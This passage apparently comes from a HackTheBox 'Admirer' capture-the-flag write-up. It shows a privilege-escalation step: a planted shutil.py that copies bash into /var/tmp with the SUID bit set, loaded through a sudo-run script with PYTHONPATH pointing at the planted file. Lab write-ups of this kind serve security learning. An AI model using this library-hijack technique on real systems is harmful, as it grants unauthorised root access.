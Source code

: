 > PYTHONPATH is an environment variable which you can set to add additional directories where python will look for modules and packages.

So I created `[shutil.py](http://shutil.py)` in `/var/tmp` which helps me to get root.

```python
waldo@admirer:/var/tmp$ cat shutil.py 
import os
os.system('cp /bin/bash /var/tmp;chmod 4755 /var/tmp/bash')
```

What this will do? This will copy the `bash` to `/var/tmp`  and give SETUID to the binary.

```python
waldo@admirer:/opt/scripts$ export PYTHONPATH=/var/tmp
```

> sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh

![Untitled](/img/htb-admirer/Untitled%2014.png)

![Untitled](/img/htb-admirer/Untitled%2015.png)

We Own the Root!!